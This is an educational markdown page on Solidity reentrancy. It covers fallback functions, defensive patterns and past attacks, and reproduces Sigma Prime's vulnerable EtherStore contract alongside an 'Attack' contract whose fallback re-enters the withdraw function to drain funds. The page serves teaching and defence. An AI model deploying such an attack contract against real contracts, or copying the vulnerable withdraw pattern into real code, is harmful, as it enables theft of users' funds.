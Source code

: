 # Best practice

## Links

### ReentrancyGuard

- Implement a lock which protects a contract from being re-entered when calling other contract.
- [ReentrancyGuard by Open Zeppelin](https://docs.openzeppelin.com/contracts/3.x/api/utils#ReentrancyGuard)

### Checks-Effects-Interactions pattern
- Avoid state changes after external calls. [Use the Checks-Effects-Interactions Pattern](https://docs.soliditylang.org/en/v0.6.11/security-considerations.html#use-the-checks-effects-interactions-pattern).
- [SWC-107](https://swcregistry.io/docs/SWC-107)

### Previous Known Attacks
- [The DAO](https://www.coindesk.com/understanding-dao-hack-journalists)
- [Lendf.me](https://slowmist.medium.com/slowmist-details-of-lendf-me-reentrancy-attack-3e168ab5f2b1)
- [imBTC Uniswap Pool](https://defirate.com/imbtc-uniswap-hack/)

### References
- [Reentrancy After Istanbul By Open Zeppelin](https://blog.openzeppelin.com/reentrancy-after-istanbul/)
- [Reentrancy Best Practices By Consensys](https://consensys.github.io/smart-contract-best-practices/known_attacks/#reentrancy)
- [Solidity doc](https://docs.soliditylang.org/en/v0.5.11/security-considerations.html#re-entrancy)
- [Sigma Prime Security] (https://blog.sigmaprime.io/solidity-security.html#reentrancy)

## Overview

### Fallback Functions

Before we learn about re-entrancy and how to prevent it, we need to learn about its primary facilitator: fallback functions.

Originally, the main purpose of fallback functions was to catch ether that was accidentally sent to a contract. You could use a plain one, which would throw an exception whenever the contract receives some ether:

```fallback() external { }```
Or you could give it the ability to ingest the ether and add it to the contract balance, and even perform some simple logic:
```
mapping (address => uint) public etherSent;

fallback() external payable {
  etherSent[msg.sender] += msg.value;
}
```
  
Each contract can have up to one fallback function. It has no name, no arguments, no return value, and can only be called by external accounts or contracts. It's executed when a call to the contract doesn't match any of the functions in the contract, or when Ether is sent to the contract without any accompanying data.

By this point, many of us know how resourceful hackers and engineers are. Many of you may be thinking about your own clever uses for a fallback function. You can check out the Delegate Proxy pattern, or EIP-2535 *The Diamond Standard* for ideas. But those aren't what we're here for. We're here to talk about using fallback functions for **evil**.

### Re-Entrancy

The beauty of the Ethereum ecosystem is in its composability and its permissionless, trustless nature. Utilizing code of external contracts is an important part of our burgeoning defi ecosystem. Calling these contracts, however, or sending Ether to them can create opportunities for hackers.

Remember what happens when an external call doesn't match any of the receiving contract's function signatures? A fallback function catches it. And inside that fallback function, arbitrary logic can be executed. Where arbitrary logic can be executed, of course hackers will find a way to perform unexpected operations. In re-entrancy, hackers use this logic to call the offending contract again *and again and again...*, to alter its state before the original function can finish executing. 

Take the below contract for example. written up by Sigma Prime:
```
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;

    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
----->  require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
 ```
 
 And check out their accompanying "Attack" contract:
 
 ```
 import "EtherStore.sol";

contract Attack {

  EtherStore public etherStore;

  // initialise the etherStore variable with the contract address

  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }

  function pwnEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
      etherStore.withdrawFunds(1 ether);
  }

  function collectEther() public {
      msg.sender.transfer(this.balance);
  }

  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 1 ether) {
          etherStore.withdrawFunds(1 ether);
      }
  }
}
```
Try to figure out exactly what's happening here. I've marked the vulnerable line of code in the first contract with an arrow.
